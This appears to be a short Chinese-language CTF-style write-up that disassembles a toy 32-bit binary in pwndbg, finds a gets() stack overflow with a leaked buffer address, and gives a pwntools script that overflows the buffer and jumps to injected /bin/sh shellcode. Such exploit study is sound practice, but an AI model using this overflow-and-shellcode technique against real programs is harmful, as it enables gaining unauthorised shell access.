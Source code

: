 ## 分析

```c
$ gdb test -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from test...(no debugging symbols found)...done.
pwndbg> disass pwnthis
Dump of assembler code for function pwnthis:
   0x080484db <+0>:    push   ebp
   0x080484dc <+1>:    mov    ebp,esp
   0x080484de <+3>:    sub    esp,0x18
   0x080484e1 <+6>:    sub    esp,0x8
   0x080484e4 <+9>:    lea    eax,[ebp-0x12]
   0x080484e7 <+12>:    push   eax
   0x080484e8 <+13>:    push   0x80485f0
   0x080484ed <+18>:    call   0x80483a0 <printf@plt>
   0x080484f2 <+23>:    add    esp,0x10
   0x080484f5 <+26>:    sub    esp,0xc
   0x080484f8 <+29>:    lea    eax,[ebp-0x12]
   0x080484fb <+32>:    push   eax
   0x080484fc <+33>:    call   0x80483b0 <gets@plt>
   0x08048501 <+38>:    add    esp,0x10
   0x08048504 <+41>:    mov    eax,0x0
   0x08048509 <+46>:    leave
   0x0804850a <+47>:    ret
End of assembler dump.
pwndbg> b *0x80483b0
Breakpoint 1 at 0x80483b0
pwndbg> r
Starting program: /home/lometsj/test
ffffd136

Breakpoint 1, 0x080483b0 in gets@plt ()
pwndbg> x/20x $esp
0xffffd11c:    0x08048501    0xffffd136    0xffffd136    0x00002000
0xffffd12c:    0xf7e63ff0    0xf7fb05a0    0xf7ffd918    0x00000000
0xffffd13c:    0x08048552    0xf7fb0cc0    0x00000000    0xffffd158
0xffffd14c:    0x0804855a    0xf7fb03dc    0xffffd170    0x00000000
0xffffd15c:    0xf7e16637    0xf7fb0000    0xf7fb0000    0x00000000

```

## 攻击
- 溢出点：0x12+4
- shellcode地址：s+0x12+4+4
攻击脚本：
```python
from pwn import *
#context.log_level = 'debug'
p = process("./test")
sc = asm(shellcraft.i386.sh())
temp = int(p.recvline(),16)
sc_addr = p32(temp + 0x12 + 4 + 4)
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc
p.sendline(payload)
p.interactive()
```
